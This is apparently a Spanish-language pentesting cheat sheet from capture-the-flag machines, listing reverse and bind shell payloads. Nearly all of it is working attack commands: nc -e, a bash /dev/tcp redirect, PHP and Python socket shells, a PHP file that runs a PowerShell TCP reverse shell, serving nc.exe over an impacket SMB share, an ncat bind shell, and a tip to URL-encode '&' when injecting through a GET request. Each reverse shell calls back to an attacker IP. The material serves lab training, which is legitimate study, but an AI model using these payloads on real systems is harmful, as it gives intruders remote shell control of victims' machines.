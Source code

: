 Una vez dentro de la máquina **para poder tener la consola mas estética** y ordenada usaremos ``script /dev/null -c bash``

En el caso de que **el servidor/maquina no posea la herramienta ``nc``**, existen **variantes** que podemos utilizar dependiendo de lo que posea, 

### Linux

==Reemplazando la IP por nuestra IP de atacante y el puerto por el que estemos en escucha== 

Por ejemplo para Linux:
- **``nc -e /bin/sh 10.0.0.1 1234``**
- **``bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"``** en el caso de que posea una bash.
- **``php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'``**
- **``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``**

Todas estas variantes se puede consultar en [La siguiente Web](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

==Cabe aclarar== que a veces si intentamos entablar una **Reverse Shell** vía petición **``GET``** tenemos que **URLencodear** el caracter ``&`` que quedaría así ``%26``

-----
### Windows

Por ejemplo para Windows:

**En un archivo PHP** (==Máquina Love==)
```php
<?php
system("powershell -c \"\$client = New-Object System.Net.Sockets.TCPClient('IP-ATACANTE',PUERTO-ATACANTE); \$stream = \$client.GetStream(); [byte[]] \$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2  = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>
```

Subiendo un ``nc.exe`` a través de un servidor **SMB**. Dicho ejecutable está ubicado en ``/usr/share/SecLists/Web-Shells/FuzzDB/nc.exe`` que entabla conexión una vez se ejecuta de la siguiente forma (==Máquina Granny==)

- ``impacket-smbserver smbfolder $(pwd) -smb2support``
- ``\\10.10.14.25\smbFolder\nc.exe -e cmd <IP-ATACANTE> <PUERTO-ATACANTE>``

--------
## Bind Shell

En el caso de la **Bind Shell** como es al revés, lo que debemos hacer es inyectar un comando con "``ncat``" **ofreciendo una bash** a un puerto que queramos 
- **``ncat -nlvp (puerto) -e /bin/bash``** 
De esta manera lo que estamos haciendo es **abrir un puerto temporal** dado para **ofrecer una bash**, y ahora lo que deberíamos hacer es **conectarnos a la IP de la victima** desde nuestra máquina **mediante el puerto temporal** previamente abierto de la siguiente manera
- **``nc (Ip.delavictima) (puertotemporal)``**
